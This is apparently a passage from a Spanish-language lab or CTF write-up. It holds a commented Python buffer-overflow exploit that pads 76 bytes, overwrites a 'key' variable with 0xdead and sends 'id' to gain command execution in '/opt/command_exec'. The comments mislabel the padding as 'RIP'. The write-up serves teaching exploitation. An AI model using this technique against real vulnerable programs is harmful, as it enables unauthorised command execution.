Info:

```shell
Escribe la contraseña: Estás en modo administrador (key = dead)
Escribe un comando:
```

Por lo que vemos funciona correctamente, por lo que ahora vamos automatizar el que envie un comando tambien de la siguiente forma:

> exploit.py

```python
#!/bin/python3

import subprocess

# 1. Offset para alcanzar la ubicación de la variable 'key' en la pila
# Este valor debe ser ajustado para coincidir con la cantidad de bytes que debemos sobrescribir
# antes de llegar a la variable 'key' o la dirección que queremos manipular.
offset = 76

# 2. Crear la parte del RIP (Return Instruction Pointer), utilizando 'A' para llenar la memoria.
# El RIP es el puntero de retorno en la pila, que en el caso de un desbordamiento de buffer puede
# sobrescribirse, permitiéndonos manipular la ejecución del programa.
# En este caso, 'A' es solo un carácter de relleno para alcanzar el valor deseado.
RIP = b"A" * offset

# 3. Representación de 0xdead en dos bytes: 0xad y 0xde.
# Queremos sobrescribir la variable 'key' con el valor 0xdead. Este valor se representa en hexadecimal
# como dos bytes: 0xad (más bajo) y 0xde (más alto).
dead = b"\xad\xde"

# 4. Comando adicional que se ejecutará al sobrescribir la 'key'.
# El comando 'id' para ver que usuario somos o bajo el que se esta ejecutando
command = b"id"

# 5. Crear el payload final, que consiste en:
# - RIP: Llenamos con 'A' hasta llegar a la posición de la variable 'key'
# - dead: Sobrescribimos 'key' con 0xdead
payload = RIP + dead

# 6. Nombre del binario que vamos a ejecutar
# En este caso, es un binario llamado 'command_exec' que se encuentra en el directorio /opt y lo ejecuta directamente
program = ["/opt/command_exec"]

# 7. Ejecutar el binario con un proceso hijo utilizando Popen.
# Utilizamos stdin=subprocess.PIPE para poder enviar datos (el payload) al binario de forma controlada.
process = subprocess.Popen(
    program, stdin=subprocess.PIPE
)

# 8. Enviar el payload al programa a través de stdin.
# El primer payload sobrescribe la ubicación de la 'key' con el valor 0xdead.
process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

# 9. Ahora que hemos sobrescrito la 'key', enviamos el comando adicional que se ejecutará,
# en este caso, 'id' para ver que usuario somos o bajo el que se esta ejecutando
process.stdin.write(command + b"\n")
process.stdin.flush()

# 10. Esperamos a que termine el proceso.
```
